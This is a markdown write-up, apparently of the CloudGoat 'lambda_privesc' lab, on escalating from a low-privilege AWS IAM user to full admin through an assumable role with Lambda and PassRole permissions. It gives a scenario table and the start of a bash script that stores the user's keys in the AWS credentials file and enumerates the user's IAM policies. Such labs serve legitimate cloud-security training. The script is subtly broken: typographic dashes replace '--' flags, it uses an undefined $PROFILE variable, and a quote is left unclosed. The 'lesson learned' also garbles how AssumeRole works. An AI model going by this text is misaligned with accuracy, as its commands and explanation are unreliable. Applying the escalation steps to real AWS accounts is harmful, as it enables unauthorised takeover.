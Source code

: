 | ++             | ++                                       |
| -------------- | ---------------------------------------- |
| Scenario Goal  | Acquire full admin privileges.           |
| Size           | Small                                    |
| Difficulty     | Easy                                     |
| Command        | `$ ./cloudgoat.py create lambda_privesc` |
| lesson learned | <font color=red> sts:AssumeRole + Lambda:* </font> able to change the assume role policy document of any existing role to allow them to assume that role. It returns a set of temporary security credentials that you can use to access AWS resources that you might not normally have access to. |


![68747470733a2f2f6170702e6c7563696463686172742e636f6d2f7075626c69635365676d656e74732f766965772f66316237613734392d646565302d343634352d623330352d6164643261303235623963632f696d6167652e706e67](https://i.imgur.com/iam6d77.png)

Starting as the IAM user Chris
-  discovers that they can assume a role that has full Lambda access and pass role permissions.
-  then perform privilege escalation using these new permissions to obtain full admin privileges.



```bash
#!/bin/bash

# A python2 utility “crudini”
pip2 install — user crudini
# jq — awesome json processor
brew install jq


#set command line paramters
INFILE=~/.aws/credentials

SRC_PROFILE='chris'
AWS_ACCESS_KEY_ID=$1
AWS_SECRET_ACCESS_KEY=$2
AWS_REGION='us-east-1'

# ------------- 1. Deploying the resources gives us the access key and secret key for Chris:


# ------------- 2. create a profile with the security credentials using AWS CLI.
# aws configure \
#     --profile $SRC_PROFILE
echo "[$SRC_PROFILE]
REGION = $AWS_REGION
AWS_ACCESS_KEY_ID = $AWS_ACCESS_KEY_ID
AWS_SECRET_ACCESS_KEY = $AWS_SECRET_ACCESS_KEY
" | crudini --merge $INFILE
echo "Set creds for profile $PROFILE in $INFILE"


# got the userId, account, Arn(accountID+IAMusername)
# aws sts get-caller-identity \
#     --profile $SRC_PROFILE
IDENTITY=`aws iam get-user \
			--profile $PROFILE`
USERNAME=`echo $IDENTITY | jq -r .UserName`
echo "-------profile $PROFILE 's user name is $USERNAME"



# ------------- 3. Enumerate the policies and permissions attached
# Lists inline policies
InPolicy='aws iam list-user-policies \
            –-user-name $USERNAME \
```